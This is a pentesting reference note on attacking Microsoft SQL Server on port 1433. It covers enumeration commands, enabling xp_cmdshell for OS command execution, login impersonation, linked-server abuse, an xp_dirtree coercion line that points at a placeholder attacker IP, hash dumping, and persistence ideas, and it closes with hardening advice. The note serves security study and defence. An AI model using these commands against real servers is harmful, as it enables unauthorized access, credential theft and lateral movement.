

# 10 - MSSQL (Port 1433) Pentesting

## 1. Executive Summary

Microsoft SQL Server listens on **TCP 1433** (and UDP 1434 for the SQL Browser/instance discovery). It is a prime target on Windows networks: weak/`sa` credentials, **`xp_cmdshell`** for OS command execution, **impersonation** and **linked servers** for privilege escalation, and **NTLM coercion** for relay/hash capture. In cloud DBaaS (Azure SQL, RDS) `xp_cmdshell` is disabled — pivot to data/IAM attacks instead.

## 2. Protocol Overview

TDS (Tabular Data Stream) protocol. Auth: SQL logins or Windows/AD (integrated). Named instances are discovered via the **SQL Browser (UDP 1434)**. Logins map to database users; the `sysadmin` role = full control including OS via `xp_cmdshell`.

## 3. Enumeration

```bash
# Nmap battery
nmap -p1433 -sV --script ms-sql-info,ms-sql-ntlm-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-dump-hashes \
  --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password= <IP>

# NetExec
nxc mssql <IP> -u sa -p 'P@ssw0rd' --local-auth
nxc mssql <IP> -u sa -p 'P@ssw0rd' --local-auth --rid-brute 5000   # enumerate domain users via MSSQL

# Interactive
impacket-mssqlclient sa:'P@ssw0rd'@<IP>
impacket-mssqlclient -windows-auth corp/user:pass@<IP>
```

## 4. Exploitation

### 4.1 OS Command Execution via xp_cmdshell
```sql
EXEC sp_configure 'show advanced options',1; RECONFIGURE;
EXEC sp_configure 'xp_cmdshell',1; RECONFIGURE;
EXEC xp_cmdshell 'whoami';
```
In `impacket-mssqlclient`: `enable_xp_cmdshell` then `xp_cmdshell whoami`. Runs as the SQL service account.

### 4.2 Impersonation (EXECUTE AS)
Low-priv login that can impersonate a sysadmin → escalate:
```sql
SELECT distinct b.name FROM sys.server_permissions a
  INNER JOIN sys.server_principals b ON a.grantor_principal_id=b.principal_id
  WHERE a.permission_name='IMPERSONATE';
EXECUTE AS LOGIN = 'sa'; SELECT SYSTEM_USER, IS_SRVROLEMEMBER('sysadmin');
```

### 4.3 Linked Servers
Chain queries to trusted linked servers (often with higher privileges):
```sql
EXEC ('sp_configure ''xp_cmdshell'',1; RECONFIGURE;') AT [LINKED\SRV];
SELECT * FROM OPENQUERY("LINKED\SRV", 'select @@version');
```

### 4.4 NTLM Coercion / Hash Capture & Relay
Force the SQL service account to authenticate to you:
```sql
EXEC xp_dirtree '\\<attacker_IP>\share';   -- or xp_fileexist / xp_subdirs
```
Capture with Responder, or relay with ntlmrelayx → lateral movement.

### 4.5 Dump Hashes / Steal Data
`ms-sql-dump-hashes` NSE pulls login hashes for offline cracking; read sensitive tables directly.

## 5. Mermaid Attack Flow


## 6. Post-Exploitation
- Service account often has domain rights → pivot to AD.
- Read app databases for credentials, PII, secrets.
- Persist via startup procs or a rogue login.

## 7. Defense & Hardening
1. Keep `xp_cmdshell` disabled; least-privilege logins, no `sa` reuse.
2. Strong passwords; prefer Windows auth + Kerberos.
3. Restrict/audit linked servers and impersonation grants.
4. Network-segment 1433/1434; run the service as a low-priv, non-domain account.

## 8. Chaining Opportunities
- RID-brute → domain users → **[[09 - Kerberos (Port 88) Pentesting]]**.
- Coerced auth → **[[06 - SMB (Ports 139-445) Pentesting]]** relay.

## 9. Related Notes
- [[11 - MySQL (Port 3306) Pentesting]]
- [[12 - PostgreSQL (Port 5432) Pentesting]]
- [[10 - Advanced MSSQL Exploitation and xp_cmdshell]]

## 10. Tools
`impacket-mssqlclient`, `netexec mssql`, `nmap` ms-sql-*, `responder`, `mssqlclient` linked-server modules.
